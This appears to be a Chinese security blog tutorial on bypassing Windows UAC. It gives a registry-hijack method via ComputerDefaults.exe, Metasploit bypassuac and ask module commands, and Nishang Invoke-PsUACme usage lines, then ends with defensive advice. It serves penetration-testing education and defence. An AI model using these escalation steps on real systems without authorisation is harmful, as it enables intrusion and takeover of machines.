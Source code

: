 **目录**

[UAC](#t0)

[如何Bypass UAC](#t1)

[MSF下实战利用](#t2)

[Nishang中的Invoke-PsUACme.ps1](#t3)

[针对绕过UAC提权的防御措施](#t4)

* * *

UAC
---

**UAC(User Account Control，用户账号控制)**是微软为了提高系统安全性在Windows Vista中引入的技术。UAC要求用户在执行可能影响计算机运行的操作或在进行可能影响其他用户的设置之前，拥有相应的权限或者管理员密码。UAC在操作启动前对用户身份进行验证，以避免恶意软件和间谍软件在未经许可的情况下在计算机上进行安装操作或者对计算机设置进行更改。在Windows Vista及以后的版本中，微软设置了安全控制策略，分为高、中、低三个等级。高等级的进程有管理员权限；中等级的进程有普通用户权限；低等级的进程，权限是有限的，以保证系统在受到安全威胁时造成的损害最小。在权限不够的情况下，访问系统磁盘的根目录、Windows目录，以及读写系统登录数据库等操作，都需要经常UAC(User Account Control，用户账号控制)的认证。

![](https://img-blog.csdnimg.cn/20200807110055583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**需要UAC的授权才能进行的操作列表如下：**

*   配置Windows Update
*   增加、删除账户
*   更改账户类型
*   更改UAC的设置
*   安装ActiveX
*   安装、卸载程序
*   安装设备驱动程序
*   将文件移动/复制到Program Files或Windows目录下
*   查看其它用户的文件夹

**UAC有如下四种设置要求：**

*   始终通知：这是最严格的设置，每当有程序需要使用高级别的权限时都会提示本地用户
*   仅在程序试图更改我的计算机时通知我：这是UAC的默认设置。当本地Windows程序要使用高级别的权限时，不会通知用户。但是，当第三方程序要使用高级别的权限时，会提示本地用户
*   仅在程序试图更改我的计算机时通知我(不降低桌面的亮度)：与上一条设置的要求相同，但在提示用户时不降低桌面的亮度
*   从不提示：当用户为系统管理员时，所有程序都会以最高权限运行

### 如何Bypass UAC

我们可以找一些以高权限运行的，但是并没有uac提示的进程，然后利用ProcessMonitor寻找他启动调用却缺失的如dll、注册表键值，然后我们添加对应的值达到bypass uac的效果。

以高权限运行的进程图标一般有如下标志：

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy9KTUgxcEVRN3FQNHgxV3RRU0ppYVJHc3NqMXp0MFoxSTBZZUQ2TzFJMjlFWXp4aEc3elZLZHMxcHVuRlhRdjlLYXNrTWt4b05nMG9DU3BQQzFXdnhFOVEvNjQw?x-oss-process=image/format,png)

我们win10以ComputerDefaults.exe作为bypass案例，ComputerDefaults.exe进程图标确实有个uac的标志（然后你双击打开会发现并没有uac提醒），

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy9KTUgxcEVRN3FQNHgxV3RRU0ppYVJHc3NqMXp0MFoxSTAxNFppYzI2TTNMZGlhUmFvV0VaQUpTWTA3Q2NZTWljSlE2UmRkTFBMQTR3TW5KOFk5MzVpY2pGdnNBLzY0MA?x-oss-process=image/format,png)

我们利用ProcessMonitor对该进程的行为做一个监听：

先寻找HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\Command 注册表，然后发现键值不存在，再寻找HKCR:\\ms-settings\\Shell\\Open\\Command\\DelegateExecute

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy9KTUgxcEVRN3FQNHgxV3RRU0ppYVJHc3NqMXp0MFoxSTBrNHFqemw2OGhtTzE1bXpGNG5sZW13MFMxR2lhQ3h4YVBCME12UmdKMmtXaWFqcTNpYTdxQ2liazR3LzY0MA?x-oss-process=image/format,png)

因此当我们修改hkcu注册表后，运行ComputerDefaults.exe就会得到一个bypass uac后的cmd：

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy9KTUgxcEVRN3FQNHgxV3RRU0ppYVJHc3NqMXp0MFoxSTB0UTNXV21aS1JMZGFsMGljc3I5VmdXd0tWZDdjSHBWbnljVHBpYVFqQTgwcjNPbzhrTjMwY2RpYWcvNjQw?x-oss-process=image/format,png)

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy9KTUgxcEVRN3FQNHgxV3RRU0ppYVJHc3NqMXp0MFoxSTBLbXNuYVdnZ3ppY3pYUHYwaWFyMmhFbk9SOXhZYXB2ZjVEY2thMGxpYXBQeW42b2ljWTU3b1JiZVNnLzY0MA?x-oss-process=image/format,png)

对了，当修改HKCU\\Software\\Classes\\下的键值时，会同步修改HKCR下面的键值。

参考：[https://mp.weixin.qq.com/s/OGiDm3IHBP3\_g0AOIHGCKA](https://mp.weixin.qq.com/s/OGiDm3IHBP3_g0AOIHGCKA)

### MSF下实战利用

**Bypassuac提权的MSF模块**

```
use exploit/windows/local/bypassuac  #该模块运行时会因为在目标机上创建多个文件而被杀毒软件识别，因此通过该模块提权成功率很低。      
use exploit/windows/local/bypassuac_injection  #该模块直接运行在内存的反射DLL中，所以不会接触目标机器的硬盘，从而降低了被杀毒软件检测出来的概率。
```


MSF中Bypassuac模块的使用前提有两个：

1.  一是系统当前用户必须在管理员组中，
2.  二是用户账户控制程序UAC设置为默认，即 “仅在程序试图更改我的计算机时通知我” 。

```
use exploit/windows/local/bypassuac      
set session 1      
set lhost 0.0.0.0                
set lport 24444                #本地监听的端口，随便设置一个未被占用的端口即可      
exploit
```


这里获取的test用户在管理员组中，且 UAC设置为默认，使用exploit/windows/local/bypassuac模块，攻击第二次成功！

![](https://img-blog.csdnimg.cn/20200214114128436.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里获取的test用户在管理员组中，且 UAC设置为默认，使用use exploit/windows/local/bypassuac\_injection模块，连续攻击两次都失败。提示32位的目标攻击64位的系统，但是我这里是使用的64为的target，也还是失败。

```
use exploit/windows/local/bypassuac_injection      
set session 1      
set target  1         #设置目标系统类型，1是64位，0是32位      
set lhost 0.0.0.0      
set lport 24444      
exploit
```


![](https://img-blog.csdnimg.cn/20200214115523948.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**Runas模块**

使用 exploit/windows/local/ask 模块，需要使用 EXE::Custom 选项创建一个可执行文件(需要免杀)，目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行，如果用户选择继续运行程序，就会返回一个高权限的shell。

使用该模块的前提：

*   当前用户必须在管理员组中 或 知道管理员的密码，对UAC的设置则没有要求。
*   用户需要手动点击弹出的程序，是

![](https://img-blog.csdnimg.cn/20200214115838984.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### Nishang中的Invoke-PsUACme.ps1

Invoke-PsUACme模块使用来自UACME项目的DLL绕过UAC。

![](https://img-blog.csdnimg.cn/20200214120215653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -verbose  #使用sysprep方法并执行默认的payload      
Import-Module .\Invoke-PsUACme.ps1;Invoke-PsUACme -method oobe -verbose  #使用oobe方法并执行默认的payload
```


![](https://img-blog.csdnimg.cn/20200214124608416.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200214124856740.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

针对绕过UAC提权的防御措施
--------------

在企业网络环境中，防止绕过UAC的最好方法是不让内网机器的使用者拥有本地管理员权限，从而降低系统遭受攻击的可能性。

使用本地管理员权限登录的用户，要将UAC设置为“始终通知”或者删除该用户的本地管理员权限(这样设置后，会像在Windows Vista中一样，总是弹出警告)。

参考文章：[内网安全攻防：渗透测试实战指南](https://item.jd.com/12743210.html)

                  [CVE-2019-1388：Windows UAC 本地提权](https://mp.weixin.qq.com/s/mQqCuH6xOvYJC8-C0aRe4w)